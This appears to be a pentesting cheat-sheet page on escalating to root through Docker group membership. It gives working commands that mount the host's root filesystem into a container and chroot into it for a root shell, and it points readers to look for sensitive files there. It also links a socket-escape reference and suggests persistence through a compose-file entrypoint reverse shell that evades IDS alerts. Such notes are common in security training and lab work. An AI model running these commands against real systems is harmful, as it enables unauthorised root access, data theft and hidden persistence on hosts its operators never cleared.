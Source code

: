 <br />

## Run Existing Docker Image

### 1. Check if current user belongs to "docker" group

```sh
groups
```

### 2. List Docker Images

```sh
docker images
```

### 3. Start Container and Get Shell

If we found Docker images running, we can use it to get a root shell
Replace **“example”** with the docker image you found.

```sh
# -v: Mount the host directory ('/') to the '/mnt' directory in the container.
# --rm: Automatically remove the container when it exits.
# -it: Interective and TTY
# chroot /mnt sh: Change the root directory of the current process to the '/mnt' directory, then execute 'sh' command to get a shell as root.
docker run -v /:/mnt --rm -it example chroot /mnt sh
```

Alternatively we can use following commands.

```sh
# --entrypoint=/bin/bash: Override the default entrypoint to '/bin/bash', which means that when the container starts, it will launch a bash shell.
docker run -it --entrypoint=/bin/bash -v /:/mnt/ <image>:<tag>
# e.g.
docker run -it --entrypoint=/bin/bash -v /:/mnt/ example:master
```

After that, you can investigate sensitive information in the **`/mnt/`** folders.

<br />

## Docker Socket Escape

Reference: [https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25)

<br />

## Establish Persistence After PrivEsc

After that you invaded the docker container, you might be able to make it persistence while evading the IDS alerts by creating a docker compose file and abusing the entrypoint option to grant you a reverse shell.
